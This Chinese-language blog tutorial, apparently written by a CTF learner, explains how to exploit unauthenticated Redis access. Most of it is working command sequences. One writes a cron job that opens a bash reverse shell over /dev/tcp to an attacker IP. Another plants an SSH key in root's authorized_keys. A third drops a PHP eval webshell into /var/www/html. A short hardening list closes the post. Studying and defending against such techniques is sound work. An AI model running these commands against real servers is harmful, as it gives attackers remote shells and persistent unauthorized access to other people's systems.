 # Redis 未授权访问



## 0x00 前言

刷题时遇到了涉及到 Redis 未授权访问的题，发现自己不会，故总结一下 Redis 未授权访问的利用方法



## 0x01 Redis 介绍

Redis 是一个使用 ANSI C 编写的开源、支持网络、基于内存、可选持久性的键值对存储数据库

Redis 通常将全部的数据存储在内存中，但也可以将数据持久化存储在硬盘中（数据持久化给了我们利用的机会）



## 0x02 环境搭建

安装 redis 后，在配置文件 `redis.conf` 中 `bind 127.0.0.1 ::1` 一行前加 `#` 将其注释，并将 `protected-mode` 设为 `no` ，然后启动 redis-server

然后在攻击机上输入 `redis-cli -h 目标IP` 命令连接目标机器的 redis-server，若连接成功则环境搭建完成



## 0x03 利用方法

### 1. 利用 Cron 定时任务反弹 shell

> 关于 Linux Cron 定时任务见另一篇博客 [[Linux Cron 定时任务](https://x5tar.com/2020/06/21/linux-crontab/)](https://x5tar.com/2020/06/21/linux-crontab/)
>
> **本方法适用于目标机器以 root 身份启动 Redis 的情况**

先在攻击机上监听任意端口 `nc -lvvp Port` 

然后在连接的 redis-cli 执行以下命令（第一行命令可以换为其它任何可以反弹 shell 的命令）

```
> set x "\n* * * * * bash -i >& /dev/tcp/攻击机IP/Port 0>&1\n"
OK
> config set dir /var/spool/cron/
OK
> config set dbfilename root
OK
> save
OK
```

稍等片刻即可在攻击机接收到回弹的 shell

若长时间未接收到，可尝试将第二行命令中的目录改为 `/var/spool/cron/crontabs` 再次尝试

### 2. 写入公钥并利用 ssh 连接

> **本方法适用于目标机器安装并启动了 ssh server 的情况**
>
> 使用本方法需要知道启动 redis 的用户的 home 目录

先在攻击机生成 ssh 公钥（已存在公钥无需重复生成，防止覆盖）

```
ssh-keygen -t rsa
```

然后在 `~/.ssh` 目录下执行以下命令

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") | redis-cli -h 目标机器IP -x set x
```

然后在连接的 redis-cli 执行以下命令（此处假设用户为 root，home 目录为 `/home`）

```
> config set dir /root/.ssh
OK
> config set dbfilename authorized_keys
OK
> save
OK
```

然后在攻击机通过 ssh 连接目标机器即可

### 3. 写入 webshell

> **本方法适用于 redis 用户权限较低但对 web 目录有写权限的情况**
>
> 使用本方法需要知道 web 目录的绝对路径

在连接的 redis-cli 执行以下命令（此处假设目标机器运行 PHP）

```
> set x "\n<?php eval($_POST['cmd']); ?>\n"
OK
> config set dir /var/www/html
OK
> config set dbfilename evil.php
OK
> save
OK
```

然后连接 webshell 即可

### 4. 利用 lua 脚本进行操作

> 在其它地方看到的，但是在 Redis 里甚至连 IO 库和 OS 库都不能用，暂未发现可靠的利用方法

从 Redis 2.6.0 版本开始，Redis 内置了 lua 解释器，可以通过 lua 脚本进行一些操作

```
> eval "return 'hello'" 0
"hello"
```

### 5. 其它方法

既然通过 Redis 未授权访问获得了写入文件的权限，则可根据目标机器启动的服务，针对性的使用其它方法进行进一步渗透



## 0x04 安全配置

Redis 未授权访问危害较大，故根据以上利用方法，可针对性的进行以下配置，增强安全性

1. 仅绑定部分地址，限制可访问的 IP

2. 修改 Redis 监听端口

3. 为用户设置密码

4. 以单独的低权限用户启动 Redis，并禁止登录

5. 禁止使用或修改高危命令名称（rename-command）

   
